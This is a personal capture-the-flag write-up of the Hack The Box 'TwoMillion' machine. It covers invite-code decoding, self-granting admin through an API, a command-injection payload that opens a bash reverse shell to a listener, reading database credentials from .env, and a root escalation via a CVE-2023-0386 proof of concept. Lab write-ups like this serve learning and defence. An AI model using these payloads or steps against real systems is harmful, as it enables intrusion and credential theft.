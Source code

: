 # [TwoMillion](https://app.hackthebox.com/machines/TwoMillion) Writeup [HTB]
## ⏯️ Credits
Thanks to IppSec for the [great walkthrough](https://www.youtube.com/watch?v=Exl4P3fsF7U), as always. Very insightful whenever I get stuck!

## 🧭 Reaching the website
As per usual, we begin by scanning the services that are exposed using `nmap`. The only services are ports 22 (ssh) and 80 (http). We also discover that the host name is `2million.htb`. Interestingly, the browser is having trouble redirecting the page, so we add `2million.htb` to the list of known hosts.
```sh
$ vim /etc/hosts
# add this line
10.10.11.221    2million.htb
```
Now everything works fine: the website appears to be an old version of Hack The Box. We also re-run `nmap`, since some scripts are executed only if the hostname is known. However, we don't find anything interesting.

## 💃 Getting the invite code
First, we want to create an account for the website, so that we can log in. To do so, it looks like we need an invite code (which we don't have). While investigating the content of the page, we find a suspicious file, `inviteapi.min.js`. The content of the file is some obfuscated, hell-sent javascript code, so we copy-paste it into ChatGPT to decrypt it for us:
```js
[...]
function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```
It looks like we can send an HTTP POST request to `/api/v1/invite/how/to/generate` to get a hint on what to do next. We get back some scrambled letters, together with an encryption method: ROT13. 

ROT13 is a special case of Cesar's smash-hit cipher, where the letters are shifted by 13 places. We decrypt the message and obtain the hint: _In order to generate the invite code, make a POST request to `/api/v1/invite/generate`_.

This second POST finally returns an encoded, base64-smelling string. We decode it and get the invite!
```sh
$ echo NjVYNFgtMjkyWjEtS0VGVkYtTkg0SlY= | base64 -d
65X4X-292Z1-KEFVF-NH4JV
```
Now we can create an account and log on the website.

## 🛡️ Becoming an admin
After logging in, the website functionalities become pretty limited and, luckily for us, many pages are not actually there. Since we are aiming for a reverse shell, we start investigating the APIs. An HTTP GET request to `/api/v1` conveniently returns a complete list:
```json
"user": {
	"GET": {
	"/api/v1": "Route List",
	"/api/v1/invite/how/to/generate": "Instructions on invite code generation",
	"/api/v1/invite/generate": "Generate invite code",
	"/api/v1/invite/verify": "Verify invite code",
	"/api/v1/user/auth": "Check if user is authenticated",
	"/api/v1/user/vpn/generate": "Generate a new VPN configuration",
	"/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
	"/api/v1/user/vpn/download": "Download OVPN file"
	},
	"POST": {
	"/api/v1/user/register": "Register a new user",
	"/api/v1/user/login": "Login with existing user"
	}
},
"admin": {
	"GET": {
	"/api/v1/admin/auth": "Check if user is admin"
	},
	"POST": {
	"/api/v1/admin/vpn/generate": "Generate VPN for specific user"
	},
	"PUT": {
	"/api/v1/admin/settings/update": "Update user settings"
	}
}
```
We begin with checking whether we are an admin. Of course, we aren't. Since we want to become one, we kindly ask the server by sending a PUT request to `/api/v1/admin/settings/update`. Our kindness is more that enough, since every user is allowed to send this request! 
We don't really know what are the expected fields, but the server nicely returns explicit error messages, so we are able to provide the correct json with few attempts.
```json
{
	"loggedin":true,
	"username":"real-admin",
	"email":"real.fr@admin.fr",
	"is_admin":1
}
```
`real-admin` is now an actual admin!

## 🐚 Getting the reverse shell
Up to now, there was only one API we weren't allowed to call: `/api/v1/admin/vpn/generate`. Clearly, we use our new admin powers to see what it does.
As before, few attempts are enough to discover the single field, which is `"username"`. 
We try a simple POC command injection to check whether the server is vulnerable:
```json
{
	"username":"real-admin;sleep 2"
}
```
It is!

We open our classic channel:
```sh
$ nc -lvnkp 4815
```
and then get the reverse shell:
```json
{
	"username":"real-admin;bash -c 'bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'"
}
```

## ⚔️ Becoming an admin, again
As soon as obtaining the shell, we check which user we are in control of:
```
$ whoami
www-data
```
Since the first flag is in the `/home/admin/` folder, we need to become an admin. Again.

`www-data` has limited privileges, but can read all the web application files. Therefore, we take a look to `.env`, hoping to find some credentials there:
```
$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Bingo! We are ready to escalate our privileges and read the flag:
```
$ su - admin
Password: SuperDuperPass123
$ whoami
admin
$ ls
user.txt
$ cat user.txt
<ADMIN FLAG>
```

## 🫛 Becoming ~~a pea superfan~~ root
To own the last flag, we need to escalate privilege again, and become the root. However, this looks like an impossible task (to me, an HTB noob).

At this moment of desperation, we use `linpeas` to scan for possible privilege escalation paths.

<!-- TODO -->

Results suggest mind admin's business, and looking into their mailbox:
```sh
$ cat /var/spool/mail/admin
[...]
Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
A simple search on Google reveals the mail is likely referring to CVE-2023-0386. We then find [this POC](https://github.com/sxlmnwb/CVE-2023-0386). Time to become root!

As for `linpeas`, we need to send the POC code to the web server. Therefore, we download it on our machine, compress it and expose it using python3's web server.
```sh
$ git clone https://github.com/sxlmnwb/CVE-2023-0386
$ rm -fr CVE-2023-0386/.git
$ tar -czvf CVE-2023-0386.tar.gz CVE-2023-0386/
$ python3 -m http.server 8000
```
In our admin shell, we download the tar folder, extract it, and follow the README instructions to run the exploit.

<!-- TODO -->
The only thing left to do is reading the flag!
```sh
$ whoami
root
$ cat /root/root.txt
<ROOT FLAG>
```

## 🫖 Conclusion and tools recap
What a humbling experience! If this box was easy, I don't want to think about the insane ones...

Anyway, now I'm slightly crazier than before. Also, I hate curl. And I need to sleep.

A great experience! 418/10 would recommend.  

**__Tools recap__**
<!--TODO-->